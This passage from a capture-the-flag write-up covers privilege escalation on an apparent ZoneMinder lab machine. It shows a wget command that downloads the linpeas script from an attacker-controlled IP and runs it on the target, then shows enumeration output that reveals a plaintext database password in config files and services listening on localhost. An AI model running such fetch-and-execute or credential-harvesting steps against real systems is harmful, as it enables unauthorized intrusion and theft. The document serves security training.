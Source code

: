 ```
```

## Privileges Escalation
Download linpeas to the target
```
$ wget http://10.10.14.49/linpeas.sh
--2024-03-15 08:40:26--  http://10.10.14.49/linpeas.sh
Connecting to 10.10.14.49:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860549 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                 100%[========================================================================================>] 840.38K   870KB/s    in 1.0s    

2024-03-15 08:40:28 (870 KB/s) - ‘linpeas.sh’ saved [860549/860549]

```

Then run it
`$ chmod +x linpeas.sh`
`$ ./linpeas.sh`

### Enumeration
Some necessary information
```
╔══════════╣ Searching passwords in config PHP files
/usr/share/zoneminder/www/api/app/Config/database.php:          'password' => ZM_DB_PASS,                                                                                   
/usr/share/zoneminder/www/api/app/Config/database.php:          'password' => 'ZoneMinderPassword2023',
/usr/share/zoneminder/www/includes/config.php:  'Password'  => '',
```

Necessary port listen on localhost
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                               
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   

```
